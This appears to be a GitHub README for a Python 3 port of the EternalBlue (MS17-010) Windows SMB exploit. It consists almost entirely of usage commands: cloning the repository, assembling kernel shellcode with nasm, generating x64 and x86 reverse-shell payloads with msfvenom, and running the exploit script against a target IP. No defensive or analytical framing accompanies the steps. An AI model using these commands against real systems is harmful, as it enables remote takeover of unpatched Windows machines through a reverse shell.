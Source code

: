 # EternalBlue-in-Python3

How to use

```git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git```

Compiling the shellcode(s)

X64

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin```

X86

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin```


Create a Bin

X64

```msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin```

X86

```msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin```


Exploit

```python3 eternal-blue.py TARGET-IP final.bin```
